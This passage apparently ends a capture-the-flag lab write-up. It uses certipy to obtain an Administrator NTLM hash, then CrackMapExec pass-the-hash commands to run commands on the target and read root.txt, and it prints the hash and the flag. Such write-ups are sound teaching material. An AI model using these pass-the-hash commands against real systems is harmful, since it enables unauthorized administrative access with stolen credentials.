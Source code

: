 ![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(894).png)

Re-run our certipy command and get the hash of the administrator!&#x20;

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(895).png)

Administrator NTLM hash: `aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef`

Rather than try to crack it, we can use CrackMapExec to pass the hash and execute commands

```bash
crackmapexec smb 10.129.139.52 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef -x 'dir C:\Users\Administrator\Desktop'
```

```bash
crackmapexec smb 10.129.139.52 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef -x 'type C:\Users\Administrator\Desktop\root.txt'
```

![](https://github.com/Th4ntis/CyberSecNotes/raw/main/.gitbook/assets/image%20(897).png)

Root.txt: `35891a19f5ad0f5c2fced375b3c7142e`
